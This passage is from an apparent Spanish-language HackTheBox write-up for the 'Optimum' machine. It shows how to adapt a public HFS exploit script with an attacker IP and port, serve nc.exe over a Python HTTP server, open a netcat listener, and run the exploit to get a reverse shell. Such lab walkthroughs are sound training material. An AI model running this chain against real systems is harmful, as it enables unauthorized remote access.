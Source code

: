 ```py
        Don't forgot to change the Local IP address and Port number on the script"""                                                                                                                                     
```

- Solo hay que modificar las variables que necesitemos:

```py
ip_addr = "10.10.14.5" #local IP address
        local_port = "666" # Local Port number
```

- Cambio el nombre por `f0_hfs_exploit.py`

```sh
┌──(fz3r0㉿Fz3r0)-[~/Documents/01_-_Fz3r0_HTB/Optimum]
└─$ mv 39161.py f0_hfs_exploit.py
                                                                                                                                     
┌──(fz3r0㉿Fz3r0)-[~/Documents/01_-_Fz3r0_HTB/Optimum]
└─$ ls -lAh | grep hfs_ 
-rwxr-xr-x 1 fz3r0 fz3r0 2.4K Jan  1 13:24 f0_hfs_exploit.py <<<---- BOOOM!!!
```

## Cargando el Exploit al HFS

- Se deben realizar 3 cosas simultaneas:

1. Tener corriendo un servidor HTTP. (yo usaré python) Servir un `nc.exe`
2. Estar escuchando con un `netcat`
3. Cargar el archivo

- Así:

1. Escuchando con python http server:

```sh
┌──(fz3r0㉿Fz3r0)-[~/Documents/01_-_Fz3r0_HTB/Optimum]
└─$ python -m http.server 80     
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

2. Escuchar en el puerto `666` que puse en el exploit:

```sh
┌──(fz3r0㉿Fz3r0)-[~/Documents/01_-_Fz3r0_HTB/Optimum]
└─$ rlwrap nc -nlvp 666                 
listening on [any] 666 ...

```

3. Correr el exploit utilizando el puerto 80 del http server que desplegué (_OJO!!! Usa python2!!!_)

    - Automáticamente se nota actividad en el http server (se descargó el file)
    - Ejecutar nuevamente el exploit y da la segunda vuelva para enviar el reverse shell:

```sh
python2 f0_hfs_exploit.py $ip_target 80
```    
